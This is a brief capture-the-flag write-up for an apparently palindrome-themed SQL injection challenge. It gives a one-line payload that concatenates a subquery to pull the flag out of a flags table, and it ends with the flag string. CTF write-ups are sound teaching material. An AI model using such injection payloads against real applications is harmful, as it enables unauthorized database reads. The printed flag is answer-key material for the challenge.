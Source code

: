### Chall Desc :
Founded in 2022 by me.

### File attached :
[server.py](server.py)
[app.py](app.py)

### Soln :

It is a one-liner payload question using SQl.

Payload : %'||(SELECT flag FROM flags)||'%');---;)'%'||)sgalf MORF galf TCELES(||'%

#### THE FLAG : hope{ecid_gnivlovni_semordnilap_fo_kniht_ton_dluoc}

Thank you

